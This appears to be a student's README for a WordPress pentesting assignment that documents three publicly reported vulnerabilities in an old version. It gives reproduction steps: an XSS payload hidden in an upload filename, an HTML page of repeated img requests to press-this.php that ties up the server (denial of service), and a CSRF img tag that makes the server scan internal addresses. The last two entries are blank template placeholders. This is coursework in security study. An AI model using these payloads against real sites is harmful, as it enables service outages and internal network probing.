 
# Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID 8819
  - [ ] Summary: An attacker can inject a malicious script in to the filename which a victim tries to upload leading to XSS inside the administrators control panel.

Two different "file to large" cases end up in interpolating the file name and appending it into DOM unsanitized leading to XSS.
Any file type can be used (.jar whatever) as the vuln happens before the type is validated.
    - Vulnerability types:injecting a scpript, xxs
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 8819.gif
  - [ ] Steps to recreate: 
 1.  Create a 20MB file called
Dinosaurs secret life<img src=x onerror=alert(1)>.png

2. Goto your wordpress site http://127.0.0.1/wp-admin/media-new.php and dragndrop or use file manager or choose the file via. the "Select Files" button.

3. A error will appear with ... exceeds the maximum upload size for this site. along with a alert box to display that the payload has been executed.
  - [ ] Affected source code:
    - [Link 1](https://hackerone.com/reports/203515)
    
    
2. (Required) Vulnerability Name or ID 8770
  - [ ] Summary: 
The Press This [4] function allows quick publishing with a special web
browser bookmarklet. An admin can also visit the Press This page
directly. One of the features of Press This is scanning an external
server for embeddable content. This is done with a GET request to:

https://www.securify.nl/wp-admin/press-this.php?u=<URL>&url-scan-submit=Scan

When this URL is called, Press This will download the contents located
at "URL" and look for content such as images and other embeddable
elements.
 This property can be abused by setting the
external URL to a huge file and have an authenticated admin visit it.
The PHP process will use 100% of its CPU resources to process the file.
If an authenticated admin can be lured to an external page, then the
malicious URL can be called many times, blocking all PHP server threads.
This will cause the server to be unreachable for a while.
    - Vulnerability types: DDOS
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 8770.gif
  - [ ] Steps to recreate:  
1. Install plug in Press This
2. Send get request on press this
3. On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt
4.Create a file dos.html on the external server with enough entries
to fill the connection pool of the WordPress server, as follows:
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=e'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=f'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=g'>
[..]
(replace <wp server> with the WordPress server address and <external
server> with the external server)
  5. Now have a logged in admin visit dos.html. The server will be down for a
while.
  - [ ] Affected source code: https://hackerone.com/reports/153093
    - [Link 1](https://github.com/WordPress/WordPress/commit/263831a72d08556bc2f3a328673d95301a152829)
  
  
3. (Required) Vulnerability Name or ID 8376
  - [ ] Summary: 
The url http://xxx.xxx.xxx.xxx/wp-admin/press-this.php?u=URL_TO_SCRAPE&url-scan-submit=Scan does not validate that user intends to send a scrape request.
The filter does not validate for 0.0.0.0:PORT and allows the attacker to make the victim send GET request to servers priate127.0.0.1:PORT, localhost:PORT or anything which can be accessed via 0.0.0.0

So basicly a wordpress installations can send unwanted scrape/scan requests on behalf of their user invoked by the attacker. Including private connections via 0.0.0.0
    - Vulnerability types: Cross-Site Request Forgery (CSRF)
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
1. Sign in to owner of myWordpress.com
2. Victim is logged into Wordpress.
3. Victim visits bad site with a content of`<img src="//myWordpress.com/wp-admin/press-this.php?u=htto://0.0.0.0:8080&url-scan-submit=Scan" />
4. Victim sends a unwanted request to their server requesting a internal server address to be hit.
5.Server sends get request to 0.0.0.0:8080
6. Servers private 127.0.0.1 answers back.
This example is with a private address, but it could also be a public. address
  - [ ] Affected source code: (https://hackerone.com/reports/110801)
   https://hackerone.com/reports/110801
    https://core.trac.wordpress.org/changeset/36435
    https://wpvulndb.com/vulnerabilities/8376
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-2222
https://wordpress.org/news/2016/02/wordpress-4-4-2-security-and-maintenance-release
    
    
    
4. (Optional) Vulnerability Name or ID 9021
  - [ ] Summary: 
    - Vulnerability types:XXS
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 

  - [ ] Affected source code:
    
    
    
    
    
    
5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

dos.html, dos, 

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

All of these challenges are very hard to find and follow as I am a Fincanca major with zero computing and linux background.
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
